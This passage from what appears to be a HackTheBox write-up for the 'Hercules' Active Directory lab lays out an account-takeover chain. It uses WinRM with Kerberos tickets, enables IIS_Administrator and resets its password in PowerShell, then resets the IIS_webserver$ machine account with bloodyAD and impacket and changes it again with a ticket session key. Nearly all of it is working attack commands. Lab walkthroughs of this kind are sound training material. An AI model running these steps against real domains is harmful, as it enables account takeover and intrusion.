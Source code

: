 **⚠️ Re-run if cleanup script resets permissions.**

### Step 7.5: WinRM as ashley.b & Enable IIS_Administrator

```
# Connect as ashley.b
export KRB5CCNAME=$(pwd)/ashley.b.ccache
python3 winrmexec.py -ssl -port 5986 -k \
  hercules.htb/ashley.b@dc.hercules.htb -no-pass
```

**In PowerShell as ashley.b:**

```powershell
cd Desktop
./aCleanup.ps1

Enable-ADAccount -Identity IIS_Administrator
Set-ADUser IIS_Administrator -Enabled $true
Set-ADAccountPassword -Identity IIS_Administrator -NewPassword (ConvertTo-SecureString "Pwned123!" -AsPlainText -Force) -Reset

# Verify
Get-ADUser IIS_Administrator | Select-Object Enabled
```

### IIS Service Account Chain

**Back in Kali terminal:**

```
# Get IIS_Administrator TGT
impacket-getTGT 'hercules.htb/IIS_Administrator:Pwned123!' -dc-ip 10.10.11.91
export KRB5CCNAME=$(pwd)/IIS_Administrator.ccache

# Reset IIS_webserver$ password
bloodyAD --host dc.hercules.htb -d hercules.htb -u 'IIS_Administrator' -k \
  set password "IIS_webserver$" Pwned123!

# Get NT hash for password
pypykatz crypto nt 'Pwned123!'
# Output: 58a478135a93ac3bf058a5ea0e8fdb71

# Get TGT for IIS_webserver$
impacket-getTGT 'hercules.htb/IIS_WEBSERVER$' -hashes :58a478135a93ac3bf058a5ea0e8fdb71 -dc-ip 10.10.11.91

# Export ticket (escape the $)
export KRB5CCNAME=$(pwd)/IIS_WEBSERVER\$.ccache

# Get session key
impacket-describeTicket IIS_WEBSERVER\$.ccache | grep 'Ticket Session Key'
# Copy the hex key (e.g., 8ab379fe7150...)

# Change password with session key (replace SESSION_KEY)
impacket-changepasswd -newhashes :SESSION_KEY_HERE \
  hercules.htb/IIS_WEBSERVER$:'Pwned123!'@dc.hercules.htb -k
```
